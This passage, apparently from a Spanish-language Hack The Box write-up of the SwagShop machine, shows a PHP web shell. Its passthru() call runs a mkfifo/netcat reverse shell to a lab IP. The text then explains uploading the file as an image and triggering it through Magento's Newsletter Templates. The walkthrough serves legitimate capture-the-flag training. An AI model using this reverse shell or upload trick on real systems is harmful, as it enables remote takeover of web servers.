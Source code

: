 ```php
<?php
  passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 443 >/tmp/f")
?>
```

Y guardamos los cambios.

![""](/assets/images/htb-swagshop/swagshop-web7.png)

Ahora vamos a darle click secundario en el hipervínculo donde se encuentra nuestra imagen y nos vamos a quedar con la parte de `/media/catalog/category/shell.php.png`, ya que dicho recurso existe a nivel de sistema. Ahora nos falta hacer un llamado a nuestro archivo para que se ejecute, esto lo logramos en la sección **Newsletter > Newsletter Templates**.

![""](/assets/images/htb-swagshop/swagshop-web8.png)
